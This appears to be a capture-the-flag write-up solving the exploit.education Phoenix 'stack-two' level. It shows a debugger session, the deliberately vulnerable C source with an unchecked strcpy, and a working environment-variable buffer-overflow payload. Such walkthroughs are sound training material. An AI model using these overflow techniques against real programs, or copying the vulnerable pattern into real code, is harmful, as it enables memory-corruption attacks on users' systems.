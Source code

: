 # PHOENIX - stack 2

Lets list our files using ```ls -la```,

```
user@phoenix-amd64:~$ ls -la
total 28
drwxr-xr-x 2 user user 4096 Jun  6 04:14 .
drwxr-xr-x 3 root root 4096 Jan 13  2019 ..
-rw-r--r-- 1 user user  220 Jan 13  2019 .bash_logout
-rw-r--r-- 1 user user 3526 Jan 13  2019 .bashrc
-rw-r--r-- 1 user user  675 Jan 13  2019 .profile
-rwxr-xr-x 1 user user 6288 Jun  6 04:14 stack-two
```

Lets analyse the file type of the binary using ```file``` command,

```
user@phoenix-amd64:~$ file stack-two
stack-two: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /opt/phoenix/x86_64-linux-musl/lib/ld-musl-x86_64.so.1, not stripped
```

Lets try running it,

```
user@phoenix-amd64:~$ ./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
stack-two: please set the ExploitEducation environment variable
```

So its asking use to set an environment variable

Lets analyse it with our debugger,

The functions inside the binary,

```
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x00000000004004b0  _init
0x00000000004004d0  strcpy@plt
0x00000000004004e0  printf@plt
0x00000000004004f0  getenv@plt
0x0000000000400500  puts@plt
0x0000000000400510  errx@plt
0x0000000000400520  exit@plt
0x0000000000400530  __libc_start_main@plt
0x0000000000400540  _start
0x0000000000400556  _start_c
0x0000000000400580  deregister_tm_clones
0x00000000004005b0  register_tm_clones
0x00000000004005f0  __do_global_dtors_aux
0x0000000000400680  frame_dummy
0x00000000004006ad  main
0x0000000000400740  __do_global_ctors_aux
0x0000000000400782  _fini
```

Lets disassemble ```main()```,

```
pwndbg> disassemble main
Dump of assembler code for function main:
   0x00000000004006ad <+0>:	  push   rbp
   0x00000000004006ae <+1>:	  mov    rbp,rsp
   0x00000000004006b1 <+4>:	  sub    rsp,0x60
   0x00000000004006b5 <+8>:	  mov    DWORD PTR [rbp-0x54],edi
   0x00000000004006b8 <+11>:	mov    QWORD PTR [rbp-0x60],rsi
   0x00000000004006bc <+15>:	mov    edi,0x400790
   0x00000000004006c1 <+20>:	call   0x400500 <puts@plt>
   0x00000000004006c6 <+25>:	mov    edi,0x4007da
   0x00000000004006cb <+30>:	call   0x4004f0 <getenv@plt>
   0x00000000004006d0 <+35>:	mov    QWORD PTR [rbp-0x8],rax
   0x00000000004006d4 <+39>:	cmp    QWORD PTR [rbp-0x8],0x0
   0x00000000004006d9 <+44>:	jne    0x4006ef <main+66>
   0x00000000004006db <+46>:	mov    esi,0x4007f0
   0x00000000004006e0 <+51>:	mov    edi,0x1
   0x00000000004006e5 <+56>:	mov    eax,0x0
   0x00000000004006ea <+61>:	call   0x400510 <errx@plt>
   0x00000000004006ef <+66>:	mov    DWORD PTR [rbp-0x10],0x0
   0x00000000004006f6 <+73>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x00000000004006fa <+77>:	lea    rax,[rbp-0x50]
   0x00000000004006fe <+81>:	mov    rsi,rdx
   0x0000000000400701 <+84>:	mov    rdi,rax
   0x0000000000400704 <+87>:	call   0x4004d0 <strcpy@plt>
   0x0000000000400709 <+92>:	mov    eax,DWORD PTR [rbp-0x10]
   0x000000000040070c <+95>:	cmp    eax,0xd0a090a
   0x0000000000400711 <+100>:	jne    0x40071f <main+114>
   0x0000000000400713 <+102>:	mov    edi,0x400828
   0x0000000000400718 <+107>:	call   0x400500 <puts@plt>
   0x000000000040071d <+112>:	jmp    0x400733 <main+134>
   0x000000000040071f <+114>:	mov    eax,DWORD PTR [rbp-0x10]
   0x0000000000400722 <+117>:	mov    esi,eax
   0x0000000000400724 <+119>:	mov    edi,0x400870
   0x0000000000400729 <+124>:	mov    eax,0x0
   0x000000000040072e <+129>:	call   0x4004e0 <printf@plt>
   0x0000000000400733 <+134>:	mov    edi,0x0
   0x0000000000400738 <+139>:	call   0x400520 <exit@plt>
End of assembler dump.
```

Lets view the source code for proper understanding,

```
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  char *ptr;

  printf("%s\n", BANNER);

  ptr = getenv("ExploitEducation");
  if (ptr == NULL) {
    errx(1, "please set the ExploitEducation environment variable");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, ptr);

  if (locals.changeme == 0x0d0a090a) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Almost! changeme is currently 0x%08x, we want 0x0d0a090a\n",
        locals.changeme);
  }

  exit(0);
}
```

It is same like previous challenges,

```buffer``` has 64 bytes and after it ```changeme``` is placed

```changeme``` is initialized with 0

But we need to overwrite the buffer with an environment variable

Here is the interesting part,

```
   0x00000000004006c6 <+25>:	mov    edi,0x4007da
   0x00000000004006cb <+30>:	call   0x4004f0 <getenv@plt>
```

When we view the memory ```0x4007da``` we can see the name of environment variable in it

```
pwndbg> x/s 0x4007da
0x4007da:	"ExploitEducation"
```

Now lets set the environment variable in the name of "ExploitEducation",

```
user@phoenix-amd64:~$ export ExploitEducation=monish
user@phoenix-amd64:~$ env | grep Exploit
ExploitEducation=monish
```

Now lets try running the binary,

```
user@phoenix-amd64:~$ ./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x00000000, we want 0x0d0a090a
```

So its just a normal buffer overflow like "stack-one"

But the ```buffer``` data comes from our environment variable,

```
ptr = getenv("ExploitEducation");
  if (ptr == NULL) {
    errx(1, "please set the ExploitEducation environment variable");
  }

locals.changeme = 0;
strcpy(locals.buffer, ptr);
```

Now lets store our data in ```ExploitEducation``` env variable

```
user@phoenix-amd64:~$ export ExploitEducation=$(python -c "print('A'*64+'\x0a\x09\x0a\x0d')")
```

Lets try running our binary,

```
user@phoenix-amd64:~$ env | grep Exploit
ExploitEducation=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
user@phoenix-amd64:~$ ./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```

Done! We have completed our "stack-two" challenge


